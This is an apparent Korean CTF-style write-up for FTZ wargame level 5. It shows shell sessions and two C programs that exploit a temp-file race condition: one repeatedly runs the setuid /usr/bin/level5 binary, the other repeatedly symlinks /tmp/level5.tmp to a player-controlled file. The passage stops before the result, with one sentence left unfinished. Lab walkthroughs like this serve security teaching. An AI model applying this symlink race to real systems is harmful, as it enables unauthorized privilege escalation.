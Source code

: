 ```yaml
---
title: FTZ 5번 Write-up
date: 2017-8-21 15:27:00
categories: FTZ
---
```


## FTZ 5번

이건 딱봐도 풀기 싫게 생겼다.

    [level5@ftz level5]$ ls
    hint  public_html  tmp
    [level5@ftz level5]$ cat hint
    
    /usr/bin/level5 프로그램은 /tmp 디렉토리에
    level5.tmp 라는 이름의 임시파일을 생성한다.
    
    이를 이용하여 level6의 권한을 얻어라.

그렇지 않은가

`/usr/bin/level5`의 프로그램은 실행중일때만 `level5.tmp`라는 임시파일을 생성하고, 종료될경우, 임시파일은 바로 삭제된다.

    [level5@ftz level5]$ cd /tmp
    [level5@ftz tmp]$ ls
    mysql.sock
    [level5@ftz tmp]$ vi script.c
    int main(){
            int i;
            for(i=0;i<200000;i++){
                    system("/usr/bin/level5 &");
            }
    }
    [level5@ftz tmp]$ gcc -o script script.c

	[level5@ftz tmp]$ vi script1.c
    #include<stdio.h>
    int main(){
            int i=0;
            system("touch /tmp/level5.code");
            for(i=0;i<200;i++){
                    system("ln -s /tmp/level5.code /tmp/level5.tmp");
            }
            system("cat /tmp/level5.code");
    }
    [level5@ftz tmp]$ gcc -o script1 script1.c

이렇게 `/usr/bin/level5`를 계속 실행시키는 script 프로그램과 `/usr/bin/level5`가 실행되는 동안 `/tmp/level5.tm`p에 심볼릭 링크를 걸어주는 script1 프로그램을 짜 보았습니다.
script1이 필요한 이유는

    [level5@ftz tmp]$ ./script &
    [1] 27505

`./script` 뒤에 `&`을 붙이면 백그라운드에서 실행하도록 해준다.
아래줄에 있는 5자리 수는 프로세스 번호로, `kill 27505`를 입력하면 script프로그램을 종료할 수 있다.
